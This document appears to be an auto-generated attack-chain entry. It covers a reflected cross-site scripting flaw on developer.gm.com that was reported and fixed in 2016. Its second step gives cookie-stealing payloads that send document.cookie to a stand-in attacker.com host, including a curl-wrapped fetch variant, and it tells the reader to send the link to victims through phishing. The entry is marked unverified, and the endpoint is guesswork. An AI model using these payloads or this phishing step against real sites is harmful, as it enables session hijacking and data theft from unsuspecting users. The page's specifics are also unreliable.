

---
tags:
  - xss
  - web
  - javascript
  - injection
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-Vulnerable-XSS-Parameter]]'
  - '[[procedures/Inject-and-Execute-Malicious-JavaScript]]'
step_count: 2
techniques:
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:15:30.975Z'
description: >-
  A cross-site scripting attack exploiting a vulnerable parameter on the
  developer.gm.com website to inject and execute malicious JavaScript in users'
  browsers.
skill_level: intermediate
impact_level: high
id: 00d46a8f-203b-4266-b591-86d8e1ad23f0
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# XSS Injection via Unsanitized Parameter on developer.gm.com

Multi-stage attack chain demonstrating exploitation of a cross-site scripting vulnerability in a parameter on the developer.gm.com website, allowing arbitrary JavaScript execution in victims' browsers. This could lead to session hijacking, data theft, or phishing attacks. The vulnerability was reported by researcher ddworken on March 4, 2016, and resolved by General Motors on June 18, 2016.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Web platform (developer.gm.com)
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Direct internet access to the target site

### Initial Access Requirements

- No credentials required for reflected XSS
- Network position: External attacker
- Prior access needed: None, public-facing application

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Parameter
procedure: [[procedures/Identify-Vulnerable-XSS-Parameter]]

**Objective**: Locate the unsanitized input parameter on developer.gm.com that allows script injection.

**Instructions**: Use a web proxy like [[tools/Burp-Suite]] to intercept requests to the site. Navigate to forms or search parameters on developer.gm.com and test for reflection without sanitization. Inject a benign payload like `<script>alert('XSS')</script>` into URL parameters (e.g., ?param=<script>alert('XSS')</script>).

```bash
# Example using curl to test parameter reflection (adapt to actual endpoint)
curl "https://developer.gm.com/search?query=<script>alert('XSS')</script>"
```

**Expected Output**: The page reflects the input without escaping, and the alert box pops up in the browser.

**Success Indicators**:
- Input is reflected in the response HTML
- JavaScript alert executes

### Step 2: Inject and Execute Malicious Script
procedure: [[procedures/Inject-and-Execute-Malicious-JavaScript]]

**Objective**: Deliver a malicious payload to steal user data or hijack sessions via the vulnerable parameter.

**Instructions**: Once the parameter is identified (e.g., a search or query param), craft a payload to exfiltrate cookies or session data. Use Burp Suite to modify the request and inject the script. For example, target the cookie: `<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>`.

```bash
# Example curl to inject payload (replace with actual vulnerable endpoint)
curl "https://developer.gm.com/search?query=<script>fetch('http://attacker.com/steal?data='+btoa(document.cookie))</script>"
```

Send the malicious link to a victim via phishing or social engineering to trigger execution in their browser.

**Expected Output**: Script executes, sending victim data to attacker's server.

**Success Indicators**:
- Victim's browser executes the script
- Data received on attacker's endpoint

## Attack Chain Summary

### Key Achievements

1. Identification of XSS-reflectable parameter on developer.gm.com
2. Successful injection and execution of arbitrary JavaScript
3. Potential for session hijacking or data exfiltration

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
